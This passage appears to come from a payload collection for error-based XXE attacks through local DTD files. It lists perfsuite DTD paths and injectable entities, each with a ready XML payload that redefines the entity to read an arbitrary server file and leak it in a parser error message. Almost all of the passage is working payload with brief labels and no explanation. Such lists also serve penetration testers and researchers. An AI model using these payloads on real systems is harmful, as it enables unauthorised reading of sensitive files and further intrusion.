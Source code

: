 **Injectable entity:** `hwpcprofilereport.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/perfsuite/dtds/pshwpc/multihwpcprofilereport-0.2.dtd">

    <!ENTITY % hwpcprofilereport.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:**
 - `/usr/share/perfsuite/dtds/pshwpc/multihwpcreport-0.3.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/multihwpcreport.dtd`

**Injectable entity:** `hwpcreport.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/perfsuite/dtds/pshwpc/multihwpcreport-0.3.dtd">

    <!ENTITY % hwpcreport.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/perfsuite/dtds/pshwpc/psmetrics.dtd`

**Injectable entity:** `expr`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/perfsuite/dtds/pshwpc/psmetrics.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
```